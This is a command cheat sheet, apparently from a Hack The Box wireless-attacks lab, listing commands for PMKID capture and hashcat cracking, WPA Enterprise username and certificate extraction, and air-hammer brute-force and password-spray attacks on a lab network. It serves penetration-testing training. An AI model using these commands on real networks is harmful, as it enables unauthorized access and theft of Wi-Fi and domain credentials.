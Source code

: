 
# PMKID Attack

| Command                                                                                                    | Description                                                |
| ---------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| `sudo airmon-ng start wlan0`<br>                                                                           | Enable monitor mode.                                       |
| `sudo hcxdumptool -i wlan0mon --enable_status=3`                                                           | Scan for networks vulnerable to the PMKID attack.          |
| `sudo airodump-ng wlan0mon --essid <target_ESSID>`                                                         | Determine BSSID of the vulnerable network using its ESSID. |
| `hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=<target_BSSID> --filtermode=2 -o HTBPMKID.pcap` | Capture the target's PMKID.                                |
| `hcxpcapngtool -o hash HTBPMKID.pcap`                                                                      | Convert the pcap to a usable hash format.                  |
| `hashcat -m 22000 --force hash /opt/wordlist.txt`                                                          | Crack the hash (using Hashcat).                            |
| `hashcat -m 22000 --force hash /opt/wordlist.txt --show`                                                   | Display the cracked password.                              |


# WPA Enterprise Reconnaissance

| Command                                                                                                           | Description                                                                                           |
| ----------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `sudo airmon-ng start wlan0`<br>                                                                                  | Enable monitor mode.                                                                                  |
| `sudo airodump-ng wlan0mon -c 1 -w WPA`                                                                           | Scan for available Wi-Fi networks and their associated clients, saving the traffic to a capture file. |
| `tshark -r WPA-01.cap -Y '(eap && wlan.ra == 9c:9a:03:39:bd:7a) && (eap.identity)' -T fields -e eap.identity`<br> | Extract usernames from a packet capture (using tshark).                                               |
| `python2 /opt/crEAP/crEAP.py`                                                                                     | Extract usernames from a packet capture (using crEAP).                                                |
| `bash /opt/pcapFilter.sh -f /home/wifi/WPA-01.cap -C`                                                             | Extract the handshake certificate from packet capture.                                                |
| `sudo bash /opt/EAP_buster/EAP_buster.sh HTB-Corp 'HTB\Ketty' wlan0mon`                                           | Identify the authentication methods  available to the user.                                           |


# Performing Bruteforce Attacks

| Command                                                                                               | Description                                         |
| ----------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `echo "HTB\Sentinal" > user.txt`                                                                      | Save the target username to a file.                 |
| `sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -p /opt/rockyou.txt -u user.txt`                     | Execute a bruteforce attack using air-hammer.py.     |
| `cat /opt/statistically-likely-usernames/john.txt \| awk '{print "HTB\\" $1}' > domain_users.txt`<br> | Create a list of usernames with a domain prefix.    |
| `sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt`                     | Execute a password spray attack using air-hammer.py |
| `sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt -s 65`               | Resume a cancelled attack.                          |

# EAP Downgrade Attack
